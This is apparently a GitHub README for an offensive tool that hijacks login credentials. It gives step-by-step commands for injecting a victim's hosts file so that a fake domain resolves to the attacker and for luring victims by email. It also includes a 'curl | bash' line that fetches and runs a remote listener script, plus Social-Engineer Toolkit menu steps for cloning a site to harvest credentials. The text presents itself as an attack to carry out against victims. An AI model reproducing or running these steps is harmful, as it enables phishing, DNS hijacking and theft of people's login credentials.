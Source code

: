 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials 
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/blob/master/logo/hijacking.jpg)
=======================================================================================================


***Installing requirements and tools:***

-  [git](https://github.com/trustedsec/social-engineer-toolkit)

-  [curl](https://curl.haxx.se/)

-  [apache2](https://httpd.apache.org/docs/2.4/howto/public_html.html)

-  [SOCIAL-ENGINEER TOOLKIT (SET)](https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/)

-  [Python](https://www.python.org/)

-  [Kali Linux](https://www.kali.org/["target="_blank")

------------------------------------------------------------

# Exploit steps:
- PWN OS HTTPS hijacking

1. - Preparing a fake update for the victim:
```bash
git clone https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials.git
cd SSTC-HTTPS-hijack-login-credentials/Attacker/sh1mazu_https_fake
bash sh1m@zu.sh
[1]
     enter
```

2. - Preparing your hosts-file for exploiting of the victim:
     
     // fakesite.login.com

```bash
cd SSTC-HTTPS-hijack-login-credentials/Attacker/hosts_fake_inject

bash fakehost.sh
     
     # NOTE: You should set up your Network setup to STATIC!
     
     # For example:
     # with IP 10.10.10.100 or 192.168.1.100
     # Or it'd depend from the local network in leyar2
     # WARNING: The host_injector is working only with these IP's from A class of networks
     //10.10.10.100// and //192.168.1.100//
     
     type the attacker IP 10.10.10.100 # or 192.168.1.100
     
     type the fake domain microsoft.update.com
     
     enter
```
3. - Sending an email or an extra lure on your victim to injecting her `hosts` file.


- **conclusion** and ***NOTE:*** This is the DNS attack which using an injection method against the victim hosts file.
        In that way, the victim will never know what actually opening on the browser when clicking on your link. The idea is         when the victim clicks on your link and opens the browser is not to see your IP
        and to see what you want to do it. When the victim opens your `fake domain` no matter what protocol is using `HTTP`         or `HTTPS`. The victim will never understand what actually is hidden behind this domain. ;)
```
Тhat's the hardest part ;)
I will give you a decision soon, but until then you should create your own!
There is no easy things in this world. ;)
```
4. - Listening for victim visiting

```bash
     curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/master/Attacker/Hijack-HTTPS-Listener/kazkuvgluvutu.sh | bash
```

5. - After exploiting the victim you should ***Stop Apache2***
```bash
systemct stop apache2.service
```
-------------------------------------------------------------

***SECOND PART***

1. - setoolkit cloning of real website
```bash
setoolkit
1) Social-Engineering Attacks
     set>1
     enter
2) Website Attack Vectors
     set>2
     enter
3) Credential Harvester Attack Method
     set:webattack>3
     enter
2) Site Cloner
     set:webattack>2
     enter
set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.10.10.100]:_your_local_layer2_IP_
     enter
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: _your_site_
     enter
     enter
```
2. - Sending a hijack email of the victim.
```bash

```

3. - Receiving the hits from browser of the victim





